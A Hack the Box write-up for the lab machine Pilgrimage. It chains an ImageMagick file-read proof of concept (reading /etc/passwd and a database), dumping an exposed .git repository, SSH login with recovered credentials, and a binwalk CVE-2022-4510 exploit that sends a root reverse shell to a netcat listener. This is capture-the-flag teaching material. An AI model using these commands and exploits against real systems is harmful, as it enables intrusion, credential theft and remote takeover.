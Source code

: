 +++
author = "Nick"
categories = ["hack the box", "Easy", "Linux"]
date = 2023-04-29T11:00:00.000Z
publishDate = 2023-04-29T11:00:00.000Z
description = " "
summary = ""
draft = false
slug = "hack-the-box-pilgrimage"
tags = ["hack the box", "Easy", "Linux", "binwalk", "imagemagik", "RCE", "CVE-2022-4510", "LFI"]
title = "Hack the Box - Pilgrimage"
url = "/hack-the-box-pilgrimage"
thumbnail = "/images/pilgrimage/logo.png"
+++

Welcome back everyone! Today we're going to be doing the Hack the Box machine - Pilgrimage. This is listed as an easy Linux machine. Let's see what's in store.

As always, we start with our `rustscan` of the machine. Here are our results:

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Right off the bat we see the hostname of the system is `pilgrimage.htb` so we'll add that to our `host` file. We'll also start a `gobuster` to see if we can enumerate any subdomains.

Command:
`gobuster dir -u http://pilgrimage.htb -w /usr/share/wordlists/seclists/a/word/list -t 80`
`gobuster dns -d pilgrimage.htb -w /usr/share/wordlists/seclists/a/word/list -t 80`

With that running the background, we'll see what's being hosted on port `80`. We see there's an online image shrinking service being hosted.

![](/images/pilgrimage/pil1.png)

So we register an account. An upload an image to be shrunk.

![](/images/pilgrimage/pil2.png)

This gives us an output path as well as lists the file in the `Dashboard` section. We try to upload some other various file types to see what it will accept. After tampering with some of the `http` `request` parameter we see nothing standing out quite yet. One of the enumerations has found a directory named `magick`. We navigate to the directory and a file is downloaded.

The file seems to be the software that's doing the image shrinking.

![](/images/pilgrimage/pil3.png)

So now, doing some research on `imagemagick` exploits, I came accross two cool resources, [this](https://github.com/barrracud4/image-upload-exploits) and [this](https://github.com/Sybil-Scan/imagemagick-lfi-poc). The latter is our method forward. First, we need `imagemagick` tools installed on our system.

Command:
`sudo apt install imagemagick imagemagick-common`

Then we simply follow along with the repo's required commands.

Command:
`git clone https://github.com/Sybil-Scan/imagemagick-lfi-poc`
`python3 generate.py -f "/etc/passwd" -o exploit.png`
![](images/pilgrimage/pil4.png)


Once the image is generated, we upload it to the portal.

![](/images/pilgrimage/pil5.png)

Then we download our file from the portal and continue the `PoC`.

Commands:
`convert 64df86ee26003.png result.png`
`identify -verbose result.png`

![](/images/pilgrimage/pil6.png)

Once we scroll down, we see the `Raw profile type:` field. This contains encoded data from our `LFI`.

![](/images/pilgrimage/pil7.png)

Next up we put the `python` code required into a script and run it.

Command:
`print(bytes.fromhex("HEX CODE FROM RAW PROFILE TYPE HERE").decode("utf-8"))`

![](/images/pilgrimage/pil8.png)

And there we have it, our `/etc/passwd` file. Awesome, now how can we leverage this to obtain what we want. We know the user is `emily`, so ideally, we'd want her `SSH` key. That path would look like `/home/emily/.ssh/id_rsa`, let's see if we can obtain that file. We try and no dice. So we circle back to our enumeration and see what else we have to work with. Looking though the output, we also have a `.git` location.

![](/iamges/pilgrimage/pil9.png)

So we pull down the repo with `git-dumper`. I should note [this](https://pypi.org/project/git-dumper/) is the version of `git-dumper` I use, not [this](https://github.com/HoLLy-HaCKeR/git-dumper).

Command:
`git-dumper http://pilgrimage.htb/.git/ repo`

Now that we have a full repo of goodies, we can sift through them. A quick `grep` command we can use to help narrow down our search is:

`cat *.php | grep -E '\b(sql|sqlite|mysql|db|database|password)\b'` or `find . -name '*.php' -exec grep -H '\b\(sql\|sqlite\|mysql\|db\|database\)\b' {} +`

![](/images/pilgrimage/pil10.png)

One line in particular stands out - `$db = new PDO('sqlite:/var/db/pilgrimage');`. It looks like we're making a database file in this location. So we follow the same as above, this time trying to obtain the file in that location. We export the `Hex` and slap it into [RapidTables](https://www.rapidtables.com/convert/number/hex-to-ascii.html). This time we get a 'readable' parse of the database.

![](/images/pilgrimage/pil11.png)

Inside this we get a set of credentials!

`emily`:`abigchonkyboi123`

We use those credentials for `SSH` and we're in! We snag the `user.txt` flag! Now that we have that flag, we can start to enumerate internally. We copy over `linpeas` and `pspy` to start enumerating.

One of the first things that sticks out is the scripts in the users `/bin` and `/sbin` path.

![](/images/pilgrimage/pil12.png)

So looking at those two files, we see that we might be able to leverage `malwarescan.sh` to escalate.

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                      /usr/bin/rm "$filename"
                      break
                fi
        done
done
```

The script above is monitoring the `shrunk` directory for files that are created. Then extracts the filename from the output to be `binwalk`ed. The `binwalk` extracts the embedded files to `binout`.

Now this alone isn't exactly enough to escalate us, however, the dependencies might also be abusable. In this case `binwalk`.

![](/images/pilgrimage/pil13.png)

We see that `Binwalk` is version `2.3.2`. If you've not run across it before, this version [is vulnerable](https://www.exploit-db.com/exploits/51249). So first thing we need to do is copy over the exploit script and an image. Then we can run the command to generate the malicious payload.

Command:
`python3 exploit.py result.png 10.10.14.2 6969`

We're then told we can start our `nc` listener on our chosen port and copy over the file. In our case we're copying the file to `/var/www/pilgrimage.htb/shrunk/binwalk.png`.

The key here is that during our `pspy` run, we noticed some root level activity.

![](/image/pilgrimage/pil14.png)

This tells us the the `malwarescan.sh` file is indeed running and waiting for interactions. So as soon as we copy over the malicious payload, we can expect a shell back on our listener.

![](/image/pilgrimage/root.png)

Sure enough, it spits right out to us! There we have it, another machine down. Quite a fun machine around leveraging images!
